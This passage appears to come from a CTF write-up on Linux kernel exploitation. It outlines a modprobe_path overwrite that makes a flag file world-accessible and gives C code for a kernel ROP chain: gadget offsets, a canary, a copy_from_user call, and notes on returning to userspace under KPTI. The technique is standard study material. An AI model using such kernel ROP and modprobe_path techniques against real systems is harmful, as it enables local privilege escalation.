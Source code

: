 Ultimately, what we can do is:

1. create a file `/tmp/xpl.sh` with contents `#!/bin/sh\nchmod 777 /flag.txt`
2. create a file `/tmp/broken` with contents `\xff\xff\xff\xff`
3. set modprobe_path to `/tmp/xpl.sh`
4. execute `/tmp/broken` which would trigger modprobe and set our flag file to be executable

### Crafting kROP chain

Most of the kROP chain is business as usual just like a userspace ROP chain.

We first extract the `vmlinux` binary from the `bzImage` using [this script](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux).

We can then obtain the gadgets using `ROPgadget --binary vmlinux > gadgets.txt` command.

```c
// gadgets
#define pop_rdi (kbase+0x1d675)
#define pop_rsi (kbase+0x6ff0c)
#define pop_rdx (kbase+0x7baf4a)

#define swapgs_iret (kbase+0x1001126)

// symbols
#define copy_from_user (kbase+0x6e5d00)
#define modprobe_path (kbase+0x208c500)


char new_path[] = "/tmp/xpl.sh\x00";
char payload[0x1000];
memset(payload, 0x41, 0x1000);
unsigned long* krop = (unsigned long*)&payload[0x40];
*krop++ = canary;
*krop++ = 0;

// copy_from_user(modprobe_path, new_path:="/tmp/xpl.sh\x00", strlen(new_path)+1)
*krop++ = pop_rdi;
*krop++ = modprobe_path;
*krop++ = pop_rsi;
*krop++ = (unsigned long)new_path;
*krop++ = pop_rdx;
*krop++ = strlen(new_path) + 1;
*krop++ = copy_from_user;
```

The only difference is that in kernelspace, after we finish our chain, we must return to userspace gracefully. The kernel is very fragile and will crash easily if you do not return gracefully.

> In order to return to user-mode, swapgs must be called before iretq. The purpose of this instruction is to also swap the GS register between kernel-mode and user-mode.
> 
> Additionally, due to KPTI, we must swap back from the kernel page table to the user-space page table, otherwise we will meet a segmentation fault.
